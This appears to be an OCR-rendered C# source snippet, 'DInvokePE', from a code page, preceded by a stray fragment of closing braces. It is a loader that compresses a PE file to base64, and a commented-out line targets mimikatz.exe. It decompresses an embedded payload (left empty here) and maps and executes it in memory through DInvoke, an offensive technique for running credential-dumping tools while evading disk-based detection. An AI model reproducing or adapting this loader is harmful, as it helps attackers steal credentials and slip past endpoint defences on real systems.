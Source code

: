 ```cs

    }



  }

}

```

```CS
using System;
using System.IO;
using System.IO.Compression;
namespace DInvokePE{
public class Program 
{        

static byte[] Compress(byte[] data)        

{ 
MemoryStream output = new MemoryStream();            
using (DeflateStream dStream = new DeflateStream(output,CompressionLevel.Optimal))

dStream.Write(data, 0, data.Length); 

 return output.ToArray();        }        
 
 
 
 
 static byte[] Decompress(byte[] data)       
{   
MemoryStream input = new MemoryStream(data);            
MemoryStream output = new MemoryStream();            
using (DeflateStream dStream = new DeflateStream(input, CompressionMode.Decompress))  
dStream.CopyTo(output);            
 

 
 return output.ToArray();        
}        
public static void Main(string[] args) {            
/*var rawBytes = File.ReadAllBytes(@"C:\Users\snovvcrash\Desktop\mimikatz.exe");            var compressed = Compress(rawBytes);            var compressedB64 = Convert.ToBase64String(compressed);            Console.WriteLine(compressedB64);            */            
var compressed = Convert.FromBase64String("");            
var rawBytes = Decompress(compressed);           
DInvoke.Data.PE.PE_MANUAL_MAP map =DInvoke.ManualMap.Map.MapModuleToMemory(rawBytes);            DInvoke.DynamicInvoke.Generic.CallMappedPEModule(map.PEINFO, map.ModuleBase);            
Console.ReadLine();        
}   

}

}
```
